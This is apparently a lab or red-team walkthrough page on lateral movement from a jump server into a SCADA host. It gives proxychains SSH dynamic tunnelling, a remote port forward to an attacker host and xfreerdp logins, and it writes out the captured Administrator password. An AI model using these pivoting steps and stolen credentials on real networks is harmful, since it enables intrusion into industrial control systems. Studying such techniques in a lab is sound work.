





# Lateral Movement 3 - Jump-Server to SCADA

- [Lateral Movement 3 - Jump-Server to SCADA](#lateral-movement-3---jump-server-to-scada)
  - [SSH Tunnel](#ssh-tunnel)
  - [Access the SCADA Server](#access-the-scada-server)

----

## SSH Tunnel

First establish Dynamic SSH tunnel:

```
proxychains ssh -D 9050 jump-admin@10.1.1.4
```

<br/>

Add `10.2.1.1 scada-host.scada.local` in the attacker hosts file:

  

<br/>

Try to access the server rdweb:

```
https://scada-host.scada.local/RDWeb/
```

  

<br/>

Use the obtained credential to login:

`Administrator` / `SCADAAdmin!@#$%`

  

<br/>

## Access the SCADA Server

Since RD Web Access is enable, do a remote port forward:

```
ssh -R 443:10.2.1.1:443 root@192.168.100.11
```

  

<br/>

On the attacker host, modify `/etc/hosts`:

```
nano /etc/hosts
```

  

<br/>

Then use `xfreerdp` to access:

```
xfreerdp /d:scada /u:Administrator /p:'SCADAAdmin!@#$%' /v:scada-host.scada.local /g:scada-host.scada.local
```

  

